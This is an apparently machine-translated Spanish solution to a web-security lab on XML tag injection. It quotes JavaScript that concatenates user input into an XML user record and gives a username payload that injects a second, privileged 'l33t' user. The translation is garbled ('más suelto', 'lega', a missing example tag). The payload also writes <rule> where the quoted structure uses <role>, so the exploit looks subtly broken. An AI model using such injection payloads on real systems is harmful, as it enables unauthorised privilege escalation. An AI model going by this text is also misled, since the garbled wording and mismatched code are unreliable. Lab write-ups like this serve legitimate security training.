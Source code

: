 ### Solutions - Lab #1

Simple XML TAG de explotación de inyección de aplicación: _D0 u wánn b3 a l33t m3mb3r?_

Antecedentes

Hay dos tipos de usuarios: leet y más suelto. Por defecto, cada nuevo usuario es un más suelto. Encuentra una manera de convertirte en miembro de la lega. Pasos de explotación

Una estructura XML válida se reporta en el archivo core.js dentro de la función .WSregister.old.

Como se puede ver en la implementación anterior, los desarrolladores utilizaron un enfoque diferente que nos ayuda a detectar la estructura XML en este escenario.

```xml
function WSregister__old() {
...
  var xml = '<?xml version="1.0" encoding="utf-8"?> ';
  xml += '<user>                                    ';
  xml += '    <role>2</role>                        ';
  xml += '    <name>' + name + '</name>             ';
  xml += '    <username>' + username + '</username> ';
  xml += '    <password>' + password + '</password> ';
  xml += '</user>                                   ';
...
}
```

Nombre del parámetro de prueba Registro:

* Si registramos a un usuario, podemos ver que su nombre se refleja en el mensaje de bienvenida y está codificado con htmlspecialchars.
* Además, si tratamos de inyectar algunas etiquetas (por ejemplo, ), la aplicación funciona y registra al nuevo usuario. Por lo tanto, este parámetro no es inyectable.

Contraseña de parámetro de prueba:

* Si adoptamos el mismo enfoque con la contraseña, podemos ver que incluso la contraseña no es inyectable.

Nombre de usuario del parámetro de prueba:

* El único parámetro inyectable es el nombre de usuario.

Si aprovechamos la estructura XML que se encuentra en el archivo core.js podríamos inyectar fácilmente a nuestro usuario de leet de la siguiente manera:

```xml
name:     useless
username: useless</username></user><user><rule>1</rule><name>l33t</name><username>l33t
password: l33t

The leet login will be:

username: l33t
password: l33t
```
